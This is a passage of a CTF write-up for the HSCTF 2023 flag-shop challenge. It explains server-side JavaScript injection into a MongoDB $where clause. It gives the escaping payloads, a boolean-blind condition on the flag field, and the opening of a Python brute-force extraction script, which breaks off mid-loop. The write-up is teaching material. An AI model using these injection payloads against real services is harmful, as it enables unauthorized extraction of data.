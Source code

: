 It could be intuitively understood by reading the content of ```db.flags.find()``` that the ```$where``` clause executes any JavaScript code passed to it.

At this point, I copied the JS code to a code editor. When I have challenges like this, to make things easier for me, I copy the string and try to construct a very simple payload without moving the cursor.

With ```');``` we escaped the string and closed the statement, giving us an <a href="https://portswigger.net/kb/issues/00100d00_server-side-javascript-code-injection">SSJI</a>. All that's left is to get rid of the extra ```')'``` at the end. I wasn't able to do this (and I don't think it was possible, but it certainly wasn't necessary) since I couldn't use comments. So, I went full monkey mode and just copied the previous function, forming a first test payload:

```'); this.challenge.includes('```, interpreted as ```this.challenge.includes(''); this.challenge.includes('')``` by the program. The output is what we expected and desired, which is to return all results (like a ```' OR 1=1```). 

By testing or reading the documentation, we can discover that this happens because only the last valid condition is computed by the $where clause. This means that we can write anything in the first ```include```, since it won't be interpreted (```something'); this.challenge.includes('```):

<img class="img-responsive" src="{{ site-url }}/assets/hsctf2023/burp1.png">

While the second one is interpreted (```something'); this.challenge.includes('search```):
<img class="img-responsive" src="{{ site-url }}/assets/hsctf2023/burp2.png">

So we have the vulnerability, but we cannot directly retrieve the flag since it is excluded from the query (if you're not sure, please reread the source code).
I then tried a payload with a boolean operator (```something'); always_true() || this.challenge.includes('something```):
<img class="img-responsive" src="{{ site-url }}/assets/hsctf2023/burp3.png">

This is very useful for searching for a potential attack. We can perform a conditional check on the flag using ```&& this.challenge.includes('flag')``` to only get results from the ```flag-shop``` entity. We can do a first test with the flag format (```something'); this.flag.includes('flag{') && this.challenge.includes('flag```):
<img class="img-responsive" src="{{ site-url }}/assets/hsctf2023/FirstBlind.png">
<img class="img-responsive" src="{{ site-url }}/assets/hsctf2023/BlindNotWorking.png">

We will have to take advantage of this behavior, performing a small brute force to reconstruct the flag character by character. We can now start to construct our payload.


## Final payload

### Payload used during the CTF

```python
import requests
import urllib3
import string
import urllib
import time
import json
urllib3.disable_warnings()

url = "http://flag-shop.hsctf.com/api/search"
headers={'content-type': 'application/json'}
flag = "flag{hsctf_gacha_game_when?}"
search = f"kj'); this.flag.includes('{flag}') && this.challenge.includes('flag"


while True:
    for c in string.printable:
        try:
            print(c)
            if c not in ['*','+','.','?','|','&','$', '"', "'", "\\", "|", "/"]:
```